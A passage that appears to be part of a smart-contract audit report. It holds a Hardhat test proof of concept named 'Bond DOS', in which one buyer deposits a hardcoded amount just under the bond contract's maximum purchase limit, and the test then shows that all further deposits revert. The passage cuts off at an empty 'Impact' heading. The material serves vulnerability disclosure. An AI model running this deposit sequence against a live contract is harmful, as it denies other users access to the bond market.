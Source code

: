     it('Bond DOS', async function () {

        await bondContract.setStartPrice(new BigNumber(1).times(Math.pow(10,18)).toFixed())
        await bondContract.setMaxPrice(new BigNumber(2).times(Math.pow(10,18)).toFixed())
        await bondContract.setMaxPayout(new BigNumber(100).times(Math.pow(10,18)).toFixed())
        
        // ideally, the following line is what I had in mind
        // var val = new BigNumber((await bondContract.maxPurchaseAmount()).toString()).minus(1).toFixed()
        // but due to timing issues I couldn't get it to work (I'm not very familiar with hardhat)

        // so I just ran this to get the value for the next line
        // await time.increase(1)
        // console.log(await bondContract.maxPurchaseAmount());


        var val = new BigNumber("99998511926905849653").toFixed();
        
        console.log("before:")
        console.log(await bondContract.maxDeposit())
        /*
        console.log(await bondContract.payoutFor(val))
        console.log(await bondContract.maxPayout())
        console.log((await bondContract.maxPurchaseAmount()))
        */
        
        await bondContract.connect(buyer1).deposit(val, buyer1.address, false)

        console.log("after:")
        console.log(await bondContract.maxDeposit())
        /*
        console.log(await bondContract.payoutFor(val))
        console.log(await bondContract.maxPayout())
        console.log((await bondContract.maxPurchaseAmount()))
        */

        await expect(
          bondContract.connect(buyer1).deposit(1, buyer1.address, false)
        ).to.be.reverted;
        
        
        await expect(
          bondContract.connect(buyer1).deposit(1, buyer1.address, true)
        ).to.be.reverted;
        

        await expect(
          bondContract.connect(buyer1).deposit(new BigNumber(1).times(Math.pow(10,18)).toFixed(), buyer1.address, false)
        ).to.be.reverted;

        await expect(
          bondContract.connect(buyer1).deposit(new BigNumber(1).times(Math.pow(10,18)).toFixed(), buyer1.address, true)
        ).to.be.reverted;
      })

### Impact
